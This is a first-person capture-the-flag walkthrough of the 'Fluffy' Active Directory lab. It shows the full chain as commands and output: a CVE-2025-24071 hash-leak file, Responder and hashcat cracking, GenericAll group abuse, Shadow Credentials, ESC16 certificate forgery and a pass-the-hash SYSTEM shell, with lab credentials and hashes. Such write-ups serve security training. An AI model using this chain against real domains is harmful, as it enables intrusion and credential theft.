




## Overview

Fluffy is a Windows-based Active Directory environment that demonstrates the complete journey from limited access to full domain control through a series of interconnected vulnerability exploits. Starting with basic SMB credentials, I exploited unpatched CVE-2025-24071 to steal NTLM hashes, then compromised them through password spraying. BloodHound analysis uncovered a critical permission misconfiguration: the GenericAll privilege, which allowed me to add myself to the Service Accounts group, which then granted GenericWrite privileges to critical service accounts. Using Shadow Credentials, I took over the winrm_svc account for remote access, then escalated to ca_svc, which had membership in the Certificate Publisher group. Here, the ESC16 vulnerability in Active Directory Certificate Services was exploited to request certificates with administrator credentials, ultimately leading to a full domain compromise with SYSTEM privileges.

## Reconnaissance

During the reconnaissance phase, I ran Nmap to enumerate open ports and services. The scan results appeared common Active Directory ports such as kerberos and ldap. Also its revealed 445/tcp SMB (Server Message Block) service.

```bash
➜ underpass  nmap -sCV -p53,88,139,389,445,464,593,636,3268,3269,5985 -T4 10.10.11.69 -oA nmap/fluffy -Pn
Nmap scan report for 10.10.11.69
Host is up (0.096s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-25 01:42:03Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T01:43:27+00:00; +6h38m48s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-25T01:43:27+00:00; +6h38m48s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-25T01:43:27+00:00; +6h38m48s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-25T01:43:27+00:00; +6h38m48s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-05-25T01:42:47
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 6h38m47s, deviation: 0s, median: 6h38m47s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

After discovering the domain names and domain controller, I added them to the `/etc/hosts` file to resolve the domain locally.

```bash
echo '10.10.11.69 DC01.fluffy.htb DC01 fluffy.htb' | sudo tee -a /etc/hosts
```

Using discovered credentials `j.fleischman:J0elTHEM4n1990!`, I enumerate SMB shares and identify the `IT` share with both read and write permissions.

```bash
➜ fluffy  nxc smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' --shares
[SNIP]
SMB         10.10.11.69     445    DC01             [*] Enumerated shares
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             -----           -----------     ------
SMB         10.10.11.69     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.69     445    DC01             C$                              Default share
SMB         10.10.11.69     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.69     445    DC01             IT              READ,WRITE
[SNIP]
```

Accessing the IT share reveals several files including software packages and a PDF document:

```bash
➜ fluffy  smbclient //10.10.11.69/IT -U j.fleischman
[SNIP]
smb: \> ls
  .                                   D        0  Sun May 25 11:13:57 2025
  ..                                  D        0  Sun May 25 11:13:57 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 15:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 15:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 15:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 15:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 14:31:07 2025

                5842943 blocks of size 4096. 1650532 blocks available
smb: \> mget Upgrade_Notice.pdf
[SNIP]
```

From the contents of the PDF file, I concluded that the target system was scheduling updates to address several new vulnerabilities. The file also contained several CVE IDs and their severity levels.


_**Figure 1**: The PDF document reveals that the organization is schedu      ling updates to address newly discovered vulnerabilities._

Research indicates CVE-2025-24071 allows for NTLM relay attacks via malicious `.library-ms` files. I generate and upload the exploit.

```bash
➜ CVE-2025-24071 git:(main) python exploit.py -f 0x5chltz -i <local IP>
[SNIP]
Creating exploit with filename: 0x5chltz.library-ms
Target IP: 10.10.16.86
[SNIP]
Process completed successfully!
Output file: exploit.zip
Run this file on the victim machine and you will see the effects of the vulnerability such as using ftp smb to send files etc.

➜ CVE-2025-24071 git:(main) unzip exploit.zip
Archive:  exploit.zip
  inflating: 0x5chltz.library-ms

➜ CVE-2025-24071 git:(main) smbclient //10.10.11.69/IT -U j.fleischman%J0elTHEM4n1990! -c 'put 0x5chltz.library-ms'
WARNING: Ignoring invalid value 'SMB1' for parameter 'client max protocol'
Can't load /etc/samba/smb.conf - run testparm to debug it
putting file 0x5chltz.library-ms as \0x5chltz.library-ms (1.3 kb/s) (average 1.3 kb/s)
```

With the exploit in place, I start Responder to capture NTLMv2 hashes when the file is accessed.

```bash
➜ fluffy  sudo responder -I tun0
[SNIP]
[+] Listening for events...

[SMB] NTLMv2-SSP Client: 10.10.11.69
[SMB] NTLMv2-SSP Username: FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash: p.agila::FLUFFY:8efc3c09d8a96a1e:2C9CF969C06228E38BE05E36C1A3A224:0101000000000000000D1A28E3CCDB017662067F715D7C8B000000000200080033004B005800550001001E00570049004E002D005100480046005800580035004100500030004A00360004003400570049004E002D005100480046005800580035004100500030004A0036002E0033004B00580055002E004C004F00430041004C000300140033004B00580055002E004C004F00430041004C000500140033004B00580055002E004C004F00430041004C0007000800000D1A28E3CCDB0106000400020000000800300030000000000000000100000000200000084BECD62ED1FCDE54698B0BB81068008C89AAF9B12276307C91F522689532180A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00380036000000000000000000
```

Due to hardware limitations, I utilize a VPS with sufficient resources for password cracking. The password `prometheusx-303` is successfully recovered from the NTLMv2 hash.

```bash
root@6c483be0c2ec:~/hash# hashcat p.agila_hash --identify
The following 2 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
   5600 | NetNTLMv2                                           | Network Protocol

root@6c483be0c2ec:~/hash# hashcat -m 5600 p.agila_hash ../rockyou.txt
hashcat (v6.2.5) starting
[SNIP]
P.AGILA::FLUFFY:8efc3c09d8a96a1e:2c9cf969c06228e38be05e36c1a3a224:0101000000000000000d1a28e3ccdb017662067f715d7c8b000000000200080033004b005800550001001e00570049004e002d005100480046005800580035004100500030004a00360004003400570049004e002d005100480046005800580035004100500030004a0036002e0033004b00580055002e004c004f00430041004c000300140033004b00580055002e004c004f00430041004c000500140033004b00580055002e004c004f00430041004c0007000800000d1a28e3ccdb0106000400020000000800300030000000000000000100000000200000084becd62ed1fcde54698b0bb81068008c89aaf9b12276307c91f522689532180a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00380036000000000000000000:prometheusx-303
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
[SNIP]
```

## Lateral Movement

With the new credentials, I perform Active Directory enumeration using BloodHound Python collector.

```bash
➜ fluffy  bloodhound-python -ns 10.10.11.69 -d fluffy.htb -c ALL --zip -u 'p.agila' -p 'prometheusx-303'
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KDC_ERR_WRONG_REALM(Reserved for future use)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 17S
INFO: Compressing output into date_bloodhound.zip
```

BloodHound reveals a critical misconfiguration - user `p.agila` possesses **GenericAll** permissions over the **Service Accounts** security group, allowing complete control including adding members.


_**Figure 2**: user **p.agila** member of **Service Account Managers** has **GenericAll** permissions over the **Service Accounts** security group._

I exploit this permission to add myself to the Service Accounts group.

```bash
➜ fluffy  bloodyAD.py --host "dc01.fluffy.htb" -d "fluffy.htb" -u "p.agila" -p 'prometheusx-303' add groupMember "Service Accounts" "p.agila"
[+] p.agila added to Service Accounts
```

As a member of Service Accounts, I now inherit **GenericWrite** permissions over three critical service accounts: `winrm_svc`, `ca_svc`, and `ldap_svc`.


_**Figure 3**: **Service Accounts** has **genericWrite** over **winrm_svc**, **ca_svc**, **ldap_svc**_

Using GenericWrite permissions, I perform a Shadow Credentials attack against the `winrm_svc` account.

```bash
➜ fluffy  certipy shadow auto -account winrm_svc -dc-ip 10.10.11.6
9 -u 'p.agila' -p 'prometheusx-303'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'a07971aa-a9e9-d98b-afcb-8fbe2e2ca7c8'
[*] Adding Key Credential with device ID 'a07971aa-a9e9-d98b-afcb-8fbe2e2ca7c8' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID 'a07971aa-a9e9-d98b-afcb-8fbe2e2ca7c8' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

With the NTLM hash, I establish a WinRM session for interactive access.

```bash
➜ fluffy  evil-winrm -i DC01.fluffy.htb -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767
[SNIP]
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
fluffy\winrm_svc
```

## Persistence

Further investigation shows that `ca_svc@fluffy.htb` and the domain controller itself are members of the **Certificate Publisher** group, granting certificate issuance privileges.


_**Figure 4**: **ca_svc@fluffy.htb** and **dc01.fluffy.htb** are members of the **Certificate Publisher** group_

I escalate from `winrm_svc` to `ca_svc` using another Shadow Credentials attack.

```bash
➜ fluffy  certipy shadow auto -account ca_svc -dc-ip 10.10.11.69 \
> -u 'winrm_svc@fluffy.htb' -hashes '33bd09dcd697600edf6b3a7af4875767'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '5b09d5de-84b1-8970-6847-7ac725ba5e15'
[*] Adding Key Credential with device ID '5b09d5de-84b1-8970-6847-7ac725ba5e15' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '5b09d5de-84b1-8970-6847-7ac725ba5e15' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

Enumerating Active Directory Certificate Services reveals **ESC16 vulnerability.**

```bash
➜ fluffy  certipy find -enabled -vulnerable \
-u 'ca_svc@fluffy.htb' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69
Certipy v5.0.2 - by Oliver Lyak (ly4k)
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "fluffy-DC01-CA"
      [SNIP]
      "[!] Vulnerabilities": {
        "ESC16": "Security Extension is disabled."
      },
      "[*] Remarks": {
        "ESC16": "Other prerequisites may be required for this to be exploitable. See the wiki for more details."
  },
  "Certificate Templates": "[!] Could not find any certificate templates"
}%
```

ESC16 allows requesting certificates with arbitrary User Principal Names (UPNs). I request a certificate with the administrator's UPN.

```bash
➜ fluffy  certipy req -ca 'fluffy-DC01-CA' \
-k -no-pass -target 'dc01.fluffy.htb' -dc-ip '10.10.11.69' \
-template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 20
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

To ensure certificate validation, I modify the `ca_svc` account's UPN to match the administrator.

```bash
➜ fluffy  certipy account \
    -u 'ca_svc@fluffy.htb' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' \
    -dc-ip '10.10.11.69' -upn 'administrator@fluffy.htb' \
    -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator@fluffy.htb
[*] Successfully updated 'ca_svc'
```

## **Domain Compromise**

Using the administrator certificate, I authenticate and retrieve the domain administrator's NTLM hash.

```bash
➜ fluffy  certipy auth -pfx administrator.pfx -dc-ip 10.10.11.69 -username 'administrator' -domain fluffy.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

Finally, I achieve full SYSTEM-level access to the domain controller.

```bash
➜ fluffy  psexec.py fluffy.htb/administrator@10.10.11.69 -hashes :8da83a3fa618b6e3a00e93f676c92a6e
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.10.11.69.....
[*] Found writable share ADMIN$
[*] Uploading file RbssUjQi.exe
[*] Opening SVCManager on 10.10.11.69.....
[*] Creating service Elio on 10.10.11.69.....
[*] Starting service Elio.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6893]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
